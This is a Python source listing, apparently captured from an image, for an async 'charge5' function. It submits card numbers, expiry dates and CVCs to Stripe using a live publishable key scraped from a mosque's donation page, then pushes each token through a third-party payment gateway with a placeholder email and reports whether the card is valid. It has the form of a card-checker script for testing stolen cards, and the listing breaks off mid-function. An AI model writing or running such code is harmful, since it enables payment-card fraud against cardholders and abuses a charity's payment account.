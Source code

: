 async def charge5(card, mm, yy, cvc):
    async with aiohttp.ClientSession() as session:
        t = session

        em = ''.join(random.choice(string.ascii_letters+string.digits) for i in range(6))
        ph = ''.join(random.choice(string.digits) for q in range(10))
        random_float = random.uniform(5, 10)
        charge = round(random_float, 1)
        print(charge)

        async with t.get("https://services.madinaapps.com/donation/clients/masdallas/paymentOptions/1809") as response:
            session_text = await response.text()

        data = {
            "card[number]": card,
            "card[cvc]": cvc,
            "card[exp_month]": mm,
            "card[exp_year]": yy,
            "key": "pk_live_UPzOdF4iA4LQ8xKfLvThKNfL00Ox1uInDx"
        }

        async with t.post('https://api.stripe.com/v1/tokens', data=data) as response:
            id = await response.json()
            try:
                token = id['id']
            except:
                return "nevalid", charge

        json_data = {
            "email": "aksdok@gmail.com",
            "clientID": "ac5cf009-f90b-4fa2-89f7-f2992dd4bcbe",
            "amount": 1.00,
            "paymentMethod": token
        }

        async with t.post('https://app.theauxilia.com/gatewayapi/Merchant/InitializePayment', json=json_data) as response:
            setupintents = await response.json()
            if setupintents.get('error'):
                return setupintents['error']['message'], charge
            seti_secret = setupintents['token']
            seti = setupintents['intentID']

        data1 = {
            "expected_payment_method_type": "card",
            "use_stripe_sdk": "true",
            "key": "pk_live_UPzOdF4iA4LQ8xKfLvThKNfL00Ox1uInDx",
            "_stripe_account": "acct_1G1eZv2eZvKYlo2C",
            "client_secret": seti_secret
        }

        async with t.post(f'https://api.stripe.com/v1/setup_intents/{seti}/confirm', data=data1) as response:
            charge_result = await response.json()
        